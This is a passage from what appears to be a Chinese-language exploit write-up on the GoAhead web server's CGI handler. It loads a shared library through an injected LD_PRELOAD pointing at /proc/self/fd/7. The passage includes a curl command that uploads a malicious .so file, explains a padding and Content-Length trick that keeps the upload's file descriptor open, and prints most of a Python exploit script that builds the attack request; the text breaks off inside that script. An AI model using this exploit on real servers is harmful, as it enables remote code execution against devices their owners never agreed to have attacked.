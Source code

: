 ![image-20220323001558145](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220323001558145.png)

查看日志报Too big错误

```c
#ifndef ME_GOAHEAD_LIMIT_POST
    #define ME_GOAHEAD_LIMIT_POST 16384
#endif
```

最大16384字节，我们在gcc时增加`-s`参数来减小体积

```bash
$ gcc -s -shared -fPIC hello.c -o hello.so
$ curl -v -F data=@hello.so -F "LD_PRELOAD=/proc/self/fd/7" "http://192.168.31.214:8080/cgi-bin/test"
```

结果报404，fd/n这样的文件描述符对应的内容都无法打开，p牛猜测的可能是：CGI执行到这里时，被打开的临时文件描述符已经关闭，所以无法打开

照这样的推测，我们可以想到条件竞争，一个上传一个包含，或者是给.so文件后增加脏字符 但是CL头的长度小于最终数据包的大小，这样GoAhead读取数据包的时候能够完全读取到payload.so的内容，但实际这个文件并没有上传完毕

首先构造好之前那个无法利用的数据包，其中第一个表单字段是`LD_PRELOAD`，值是文件描述符，一般是`/proc/self/fd/7`，之后对之前的数据包.so末尾增加几千个字节的脏字符，比如说`a`，之后将数据包的CL设置为不超过16384的值，但比payload.so文件的大小要大个500字节左右

由于上传流程没有结束，所以此时文件描述符是没有关闭的，可以通过`/proc/self/fd/7`读取到，脏字符也不影响动态链接库的加载和运行，最后即可成功完成劫持

p牛已经写好了脚本

```python
import sys
import socket
import ssl
import random
from urllib.parse import urlparse, ParseResult

PAYLOAD_MAX_LENGTH = 16384 - 200


def exploit(client, parts: ParseResult, payload: bytes):
    path = '/' if not parts.path else parts.path
    boundary = '----%s' % str(random.randint(1000000000000, 9999999999999))
    padding = 'a' * 2000
    content_length = min(len(payload) + 500, PAYLOAD_MAX_LENGTH)
    data = fr'''POST {path} HTTP/1.1
Host: {parts.hostname}
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary={boundary}
Content-Length: {content_length}

--{boundary}
Content-Disposition: form-data; name="LD_PRELOAD";

/proc/self/fd/7
--{boundary}
Content-Disposition: form-data; name="data"; filename="1.txt"
Content-Type: text/plain

#payload#{padding}
--{boundary}--
'''.replace('\n', '\r\n')
    data = data.encode().replace(b'#payload#', payload)
```